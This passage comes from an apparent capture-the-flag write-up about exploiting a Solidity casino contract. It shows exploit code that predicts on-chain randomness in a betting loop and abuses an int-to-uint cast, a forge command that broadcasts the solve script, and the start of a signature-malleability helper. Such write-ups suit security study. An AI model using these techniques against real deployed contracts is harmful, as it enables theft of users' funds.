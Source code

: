 <br/>

To earn `115792089237316195423570985008687907853269984665640564039357684007913129639935 wei` required in order to exploit this bit manipulation trick, placing bets by calling the `bet` function in a `while` loop turned out to be just enough:
```solidity
...
contract Attack {
    ...

    function attack() external payable {
        ...
        uint256 targetBalance = uint256(int256(-99.9 ether - 1 wei));
        console.log("Target balance:\t", targetBalance);
        
        while (casino.balances(address(this)) < targetBalance) {
            uint256 random = uint256(keccak256(abi.encode(49_479, block.number, casino.totalBets())));
            if (random % 2 != 1) {
                casino.bet{gas: 50_000}(0);
                continue;
            }

            uint256 bet = casino.balances(address(this));
            if (bet > targetBalance - bet) { bet = targetBalance - bet; }
            casino.bet{gas: 50_000}(bet);

            console.log("============ BET ===============");
            console.log("PLAYER funds:\t", casino.balances(address(this)) / 1e18);
            console.log("CASINO funds:\t", address(challenge.CASINO()).balance / 1e18);
        }
        ...
    }
    ...
}
...
```

<br/>

### Exploitation ⚠️

> `[+]` Have a look at the full script:&ensp;[`Solve.s.sol`](./Solve.s.sol) <br />
> `[*]` Execute the script with this command:
> ```bash
> forge script -f '{CTF_RPC_URL}' --broadcast ./script/Solve.s.sol
> ```
<br />

```solidity
pragma solidity 0.8.28;

import "../src/Challenge.sol";
import {ECDSA} from "@openzeppelin/contracts/utils/cryptography/ECDSA.sol";
import "forge-std/Script.sol";

contract Attack {
    Challenge private challenge;
    Casino private casino;

    constructor(Challenge _challenge, Casino _casino) public payable {
        challenge = _challenge;
        casino = _casino;
    }

    function malleability(bytes memory signature) internal pure returns(bytes memory) {
```